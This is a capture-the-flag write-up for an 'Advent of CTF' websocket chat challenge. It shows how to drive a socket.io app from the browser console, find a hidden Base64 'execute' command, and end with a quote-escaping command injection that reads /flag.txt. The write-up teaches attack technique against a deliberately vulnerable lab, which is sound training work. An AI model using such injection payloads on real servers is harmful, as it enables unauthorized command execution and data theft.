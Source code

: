 #+TITLE: Advent of CTF - Challenge 23
#+SUBTITLE: "IRC"

* Challenge

This challenge centers on the =websocket= technology. It is commonly used in chat systems and often requires that a programmer implements their own security.

What you will learn:

- How to identify websockets
- How to send your own messages

* Solution :ATTACH:
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/credmp.github.io/writeups/advent-of-ctf/challenge-23/index_att
:END:

The challenge starts in a very unusual state; a blank screen with a =send= button.

#+CAPTION: Challenge start
[[file:index_att/challenge-start.png]]

You can send any type of textual message. In the DevTools, under network, there is an odd status response; =101=. This means that a protocol switch was done. This request is no longer talking =HTTP=, but something else.

In the =Response= tab of the network entry the messages that are sent back and forth can be observed.

#+CAPTION: WebSocket traffic
[[file:index_att/chats.png]]

In the page source code it is clear that =socket.io= is used. The javascript can not be directly used in the DevTools, but copying the relevant parts from the =index= page to the console allows you to play with it from a Javascript environment.

While doing so you will notice this fragment. It shows that if the =msg= has a property called =code= it will do something different.

#+CAPTION: Discovery of the "code" command
#+begin_src javascript
 if (msg.command === "code") {
     $('#messages').append($('<li>').html("<pre>" + msg.message + "</pre>"));
 } else {
     $('#messages').append($('<li>').text(msg.message));
 }
#+end_src

Taking the plan from before; copy the =socket= creationg and the =socket.on= to the Javascript console.

#+CAPTION: Basic code for the Console
#+begin_src javascript
var socket = io();

socket.on('chat message', function(msg){
  console.log(msg.command);
  if (msg.command === "code") {
    $('#messages').append($('<li>').html("<pre>" + msg.message + "</pre>"));
  } else {
    $('#messages').append($('<li>').text(msg.message));
  }
  window.scrollTo(0, document.body.scrollHeight);
});
#+end_src

The =socket.emit= can now be utilized to send messages to the chat application. This happens in a different request then the one of the first load, but due to our logic the output is still visible in the screen. 

#+CAPTION: Sending message from the console
#+begin_src javascript
socket.emit('chat message', {message: "Hello from console"});
#+end_src

#+CAPTION: DevTools shows the messages
[[file:index_att/own-messages.png]]

As it became clear that there is a =command= property that can be set, lets add that to the message.

#+CAPTION: Sending a message with a command
#+begin_src javascript
socket.emit('chat message', {command: "code", message: "Hello from console"});
#+end_src

It stands to reason that there are other =command= options as well, given the hint in the code. After a few attempts you will probably ask for =help=.

#+CAPTION: Sending a message with a command
#+begin_src javascript
socket.emit('chat message', {command: "help", message: "Hello from console"});
#+end_src

The response is indeed very helpful; it lists the accepted command types.

#+CAPTION: The help response
#+begin_src text
Allowed message types are: help, execute and empty
#+end_src

The =execute= type stands out, so lets give that a try. As a =message= payload anything can be used at this point.

#+CAPTION: Attempting an execute
#+begin_src javascript
socket.emit('chat message', {command:"execute", message: "something"});
#+end_src

The result is somewhat surprising. It says that it encountered =Invalid Base64=.

#+CAPTION: Execute response to "something"
#+begin_src text
Invalid BASE64
#+end_src

After a few experiments it is clear that the message needs to be a valid Base64 payload. In javascript this is done through =btoa()=.

#+CAPTION: Attempting an execute
#+begin_src javascript
socket.emit('chat message', {command:"execute", message: btoa("something")});
#+end_src

The result gives a clear path to victory! A command is executed with the payload; =ls 'something'=. Obviously =something= does not exist, but it does provide a mechanism to get the flag.

#+CAPTION: Execute response to btoa("something")
#+begin_src text
ERR: Error: Command failed: /bin/ls 'something'
ls: something: No such file or directory
#+end_src

From here on in it becomes a standard command injection. From the tests it is clear the application does something like =ls 'USERINPUT'=. So the ='= has to be escaped and then a new command can be entered, that reuses the ='= at the end. 

#+CAPTION: Exploiting the command injection
#+begin_src javascript
socket.emit('chat message', {command:"execute", message: btoa(".';cat '/flag.txt")});
#+end_src

After grabbing the points be sure to also grab the badge.

[[./index_att/badge.png]]

Go back to the [[../../../index.org][homepage]].

